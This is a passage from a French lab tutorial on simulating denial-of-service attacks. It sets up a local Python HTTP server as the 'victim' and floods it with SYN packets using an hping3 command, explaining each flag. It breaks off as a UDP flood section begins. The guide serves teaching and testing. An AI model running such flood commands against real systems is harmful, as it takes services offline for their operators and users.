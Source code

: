 1. **Configurer un serveur web simple** :
   
   - Installez un serveur HTTP léger avec `SimpleHTTPServer` en Python pour simuler une **victime**.
   
     ```bash
     sudo apt install python3
     ```
   - Démarrez le serveur :
   
     ```bash
     python3 -m http.server 8080
     ```
   - Le serveur écoutera sur le port **8080** et servira les fichiers du répertoire courant.

### 2.2 Simulation d'une Attaque SYN Flood

#### Attaque SYN Flood avec `hping3`

L'attaque **SYN Flood** envoie des requêtes **SYN** en masse sans jamais compléter le **handshake TCP**, surchargeant ainsi les ressources du serveur.

1. **Installer `hping3`** :
   
   ```bash
   sudo apt install hping3
   ```

2. **Lancer une attaque SYN Flood** :
   
   Exécutez la commande suivante pour simuler une attaque **SYN Flood** sur le serveur :
   
   ```bash
   sudo hping3 -S --flood -p 8080 <IP_du_serveur>
   ```
   - **-S** : Envoi de paquets **SYN**.
   - **--flood** : Envoi de paquets à la vitesse maximale.
   - **-p 8080** : Cible le port **8080** où le serveur HTTP écoute.

3. **Observer l'impact** :
   
   Utilisez des outils comme `top` ou `htop` sur le serveur pour surveiller l'**utilisation du CPU** et de la **mémoire** :
   
   ```bash
   top
   ```
   Essayez également d'accéder au serveur via un navigateur pour vérifier que le service est indisponible.

### 2.3 Simulation d'une Attaque UDP Flood

#### Attaque UDP Flood avec `hping3`

L'attaque **UDP Flood** inonde le serveur avec des paquets **UDP**, saturant ainsi la bande passante et les ressources réseau.

1. **Lancer une attaque UDP Flood** :
   
   Exécutez cette commande pour lancer l'attaque :
   